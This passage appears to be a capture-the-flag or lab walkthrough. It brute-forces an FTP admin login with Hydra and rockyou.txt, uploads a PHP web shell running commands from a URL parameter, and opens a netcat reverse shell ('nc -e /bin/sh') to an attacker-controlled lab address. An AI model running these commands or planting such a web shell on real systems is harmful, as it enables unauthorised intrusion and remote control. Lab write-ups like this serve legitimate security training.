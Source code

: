 * We see that admin exists. Let's try to bruteforce this using Hydra in conjunction with rockyou.txt

### Bruteforcing with Hydra

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.78.56 ftp
```

This verified that weak credentials are in play:

Username: admin

Password: admin

## FTP Exploitation

Backdoor.php

* This backdoor will allow us to execute code through the URL

```
<pre>
<?php
system($_GET['cmd']);
?>
</pre>
```

#### Using PUT to send a file to the FTP server since we have write access

```
ftp 192.168.78.56 21
admin
admin
Login Successful.
Put backdoor.php
```

## Code Execution

```
http://192.168.78.56:8295/backdoor2.php?cmd=whoami
www-data
```

#### Reverse Shell

Start Netcat listener on an open port

```
nc -lnvp 8295
```

```
http://192.168.78.56:8295/backdoor.php?cmd=nc -e /bin/sh 192.168.49.78 8295
```
